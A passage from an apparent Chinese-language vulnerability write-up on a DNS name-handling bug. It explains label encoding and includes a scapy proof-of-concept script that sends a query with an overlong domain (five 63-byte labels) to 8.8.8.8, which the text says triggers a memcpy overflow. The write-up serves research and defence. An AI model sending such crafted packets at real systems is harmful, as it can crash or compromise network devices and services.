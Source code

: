 可以看到实际发送的域名并不是我们想要发送的域名。  
  
这里补充一些关于DNS协议的东西，DNS请求主要由DNS header和DNS Queries组成，其中重点关于DNS Queries，它主要包含以下几部分。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8E4gvpb3vgYVWnRWiamTMSjXJFibpDXxlXMBibs71gsTctxhbkphvEJ2cIvqazcE9CI4aKkicMGSV2Zmg/640?wx_fmt=png&from=appmsg "")  
  
  
◆域名以标签的形式编码。每个标签的第一个字节是该标签的长度，后跟标签的内容。**标签的长度最大为 63 字节**，标签和标签之间使用长度字节进行分隔。  
  
◆域名的结尾使用00来标示，表示这是域名的结束。  
  
◆例如，www.example.com会被表示为：03 77 77 77 07 65 78 61 6D 70 6C 65 03 63 6F 6D 00。可以看到我们构造的域名是有问题的。  
  
  
```
```  
  
  
所以按如下构造poc，那么产生的域名应该是足够长的。  
  
```
from scapy.all import *
import random
import string

def generate_random_string(i):

    characters = string.ascii_letters + string.digits  
    random_string = ''.join(random.choice(characters) for _ in range(i))
    
    return random_string

def generate_dns_name():
    dns_name = ""
    for i in range(5):
        dns_name = dns_name + generate_random_string(63)+"." 
    return dns_name
target_dns_server = "8.8.8.8"
rand_str = generate_dns_name() + "test-grayware.testpanw.com"
dns_request = IP(dst=target_dns_server) / UDP(dport=53, sport=RandShort()) / DNS(
    rd=1,
    qd=DNSQR(qname=rand_str, qtype="A") 
)
print("Try this payload {}".format(rand_str))
send(dns_request)

```  
  
  
  
最终导致了memcpy溢出  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8E4gvpb3vgYVWnRWiamTMSjXHibR4S00vENHhHzhIj9RZQiaW8NLsicRcczm4Mic95KRaEHVg2bAdnf1Mw/640?wx_fmt=png&from=appmsg "")  
## 1. POC分析  
  
那么问题来了，这个size是如何产生的？  
  